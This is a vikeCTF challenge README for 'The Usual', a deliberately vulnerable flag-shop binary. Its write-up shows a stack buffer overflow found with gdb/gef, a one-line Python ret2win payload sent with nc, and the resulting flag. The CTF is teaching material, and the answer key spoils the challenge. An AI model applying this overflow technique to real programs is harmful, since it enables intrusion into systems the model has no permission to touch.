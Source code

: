 # The Usual

**Author: [`Kyle Stang`](https://github.com/kylestang)**

**Category: `Misc Medium`**

## Description

In the heart of a bustling medieval market, a burly Viking with a formidable beard and weathered armor stumbles upon a peculiar sight\u2014a vibrant flag shop adorned with banners of every hue. Intrigued by the fluttering colors, he enters the shop, his towering frame contrasting with the delicate textiles. With a mix of curiosity and confusion, he marvels at the array of flags, pondering which one might best represent his warrior clan amidst the sea of symbols and sigils.

## Organizers

Run `make` in the `src` directory to compile the executable.
Players should be given `the-usual` executable in `/out`.
**Do not give them flag.txt**

On the server, run `docker-compose up -d` to start the docker container,
which will accept connections on port 3333.

Players should be given the address of the server binary.

## Solution

Decompiling the binary, two things stand out:
1. The `strtoul` function used to get the count returns 0 when no numbers are entered.
2. The buffer in print_stand is smaller than the input

Entering text, for example `a`, in the count allows the user to get to the
flag stand function. Using gdb, we can get the address of `print_flag`:
```
gef➤  info functions flag
All functions matching regular expression "flag":

Non-debugging symbols:
0x0000000000401557  print_flag
```

Creating a pattern and using it to overflow the buffer, we find from
`$rsp` that `$rip` has an offset of 40.

```
gef➤  pattern create 80
[+] Generating a pattern of 80 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaa

...
gef➤ r
Welcome to the flag shop!

Please make a selection:
1: A life-altering flag-themed quote, $10
2: A hand-typed, bespoke, artist's rendition of the flag, $45
3: An organic, custom-engraved flag stand, $130
4: The flag, $20,000
5: Exit

Your balance is $100
What would you like to buy? (1-5) 3
How many would you like? a
What would you like your flag stand to say? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaa
Great! Your organic, custom-engraved flag stand will be delivered within three to six business weeks

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401556 in print_stand ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x65
$rbx   : 0x00007fffffffdf48  →  0x00007fffffffe38e  →  ""
$rcx   : 0x00007ffff7eb0184  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffddf8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaa\n"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f8d643  →  0xf8e710000000000a ("\n"?)
$rdi   : 0x00007ffff7f8e710  →  0x0000000000000000
$rip   : 0x0000000000401556  →  <print_stand+69> ret

...

gef➤  pattern search $rsp
[+] Searching for '6661616161616161'/'6161616161616166' with period=8
[+] Found at offset 40 (little-endian search) likely
```

So, we need to overwite the return address to go to 0x401557 with an offset of 40.
Using this python file to create the payload:
```python
print("3\na\n" + "A" * 40 + "\x57\x15\x40" + "\x00" * 5)
```

We can run it against the remote server:
```
❯ nc localhost 3333 < ../solution/payload
Welcome to the flag shop!

Please make a selection:
1: A life-altering flag-themed quote, $10
2: A hand-typed, bespoke, artist's rendition of the flag, $45
3: An organic, custom-engraved flag stand, $130
4: The flag, $20,000
5: Exit

Your balance is $100
What would you like to buy? (1-5) How many would you like? What would you like your flag stand to say? Great! Your organic, custom-engraved flag stand will be delivered within three to six business weeks
vikeCTF{B!n@ry_Xp10!7@7!0N_X64}
```

## Flag

```
vikeCTF{B!n@ry_Xp10!7@7!0N_X64}
```
